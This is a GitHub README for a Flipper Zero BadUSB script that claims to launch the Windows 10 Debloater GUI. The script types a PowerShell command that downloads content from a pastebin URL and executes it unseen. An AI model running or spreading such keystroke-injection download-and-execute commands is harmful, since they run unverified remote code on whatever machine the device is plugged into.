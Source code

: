 # Windows 10 Debloater GUI Port for Flipper Zero Bad Keyboard

![Debloater GUI Logo](https://raw.githubusercontent.com/levimac-03/flipper-zero-win10debloater-port/main/Debloater%20GUI.png)

This repository contains a script designed for the Flipper Zero Bad Keyboard that executes the Windows 10 Debloater GUI, originally developed by Richard Newton (Sycnex). 

## Overview

The script automates the execution of a PowerShell command that downloads and runs the Windows 10 Debloater GUI from a specified URL. This tool helps users remove unwanted bloatware and optimize their Windows 10 systems.

### Script.txt

```plaintext
REM Credit: @Levi-M-2024 @Sycnex-2021

DELAY 500
GUI r
DELAY 500
STRING powershell -Command "iex (Invoke-WebRequest -Uri 'https://pastebin.com/raw/854vZ336' -UseBasicP).Content"
ENTER
```

## Installation

**Copy the Script**: Place the script file into the "Bad Keyboard" folder on your Flipper Zero SD card. Ensure your device is running Xtreme firmware.

**Restart Your Flipper Zero**: After copying the file, restart your Flipper Zero to activate the script.

## Usage

Once installed, the script can be executed via the Flipper Zero Bad Keyboard interface. It will automatically open a PowerShell window and run the Debloater GUI.

## Contributing

Contributions are welcome! For details on contributing, please see our [CONTRIBUTING.md](CONTRIBUTING.md).

## Acknowledgements

- Richard Newton (Sycnex) for the original Windows 10 Debloater GUI.
- Levi-M-2024 for porting the script to Flipper Zero.
- The Flipper Zero community for their ongoing support and contributions.

## Contact

For questions or support, please open an issue on GitHub or contact [your-email@example.com](mailto:your-email@example.com).
